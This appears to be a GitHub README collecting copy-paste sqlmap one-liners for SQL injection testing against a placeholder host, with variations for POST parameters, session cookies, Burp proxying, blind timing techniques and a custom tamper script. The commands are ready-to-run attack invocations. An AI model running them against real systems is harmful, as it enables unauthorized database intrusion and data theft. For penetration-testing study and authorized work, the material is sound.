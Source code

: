 # SQLMapExamples
A list of sample SQL Map Injection Commands.  SQLMap is a powerful tool for identifying SQL injection vulnerabilities.  However, everytime I use it, I struggle with the parameters.  The following is a list of SQLMap one-liners that I have used in the past and keep here so I can copy and paste and modify the parameters are required.

Reference:
https://github.com/sqlmapproject/sqlmap/wiki/Usage



## SQLMap Injection on POST parameter with a PHP Session ID
Here we have simple sql injection test agianst a single POST parameter
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is the same injection attack as above but using the astrix to inject at a predetermined postion for a MySQL database running on a Linux platform:
```bash
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```


## SQLMap Injection on POST parameter at a particular position using the astrix (*) notation 
Here is a SQL injection attack which has been configured to run through a Proxy (BurpSuite)

```bash
sqlmap -u "http://10.10.10.10/rofile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=3 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N"
```

## SQLMap test only 1 parameter "name" and risk 3 level 5 through a proxy connection 
Here is a sql injection on a name parameter for a login form at a set position on the name field. Also there is a custom written tamper (that is included in this repository) that will replace <here> with 3 random characters, so that a unique user is created with each SQLMap injection test.  
You can  install this tamper simply by coping the file to your /usr/share/sqlmap/tamper folder (on Kali at least)
  
```bash
sqlmap -u "http://10.10.10.10:80/index.php" --data="name=12345678901*&email=test<here>@test.com&password=test12345" --method="POST" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 -p "name" --dbms="MySQL" --os=Linux --level=5 --risk=3 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --tamper=chargen.py
```

## SQLMap test only blind timing based SQL injection techniques 
Testing only the timing based attacks using the --technique=T parameter
```
sqlmap -u "http://10.10.10.10/profile.php" --data="name=1234567890*" --method="POST" --cookie="PHPSESSID=rbeph9bv25ive9k7sqjefnsujk" --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --referer="http://10.10.10.10/profile.php" --proxy=http://127.0.0.1:8080 --delay=0 --timeout=30 --retries=0 --dbms="MySQL" --os=Linux --level=5 --risk=1 --threads=1 --time-sec=5 -b --batch --answers="crack=N,dict=N" --technique=T
```

## Create a custom SQLMap tamper file
I ran into a scenario today where I wanted to test a SQL create new user page for a SQL injection.  
Tampers can be easily edited and replaced here:
```
cd/usr/share/sqlmap/tamper
```
```
sudo cp lowercase.py increment.py
```


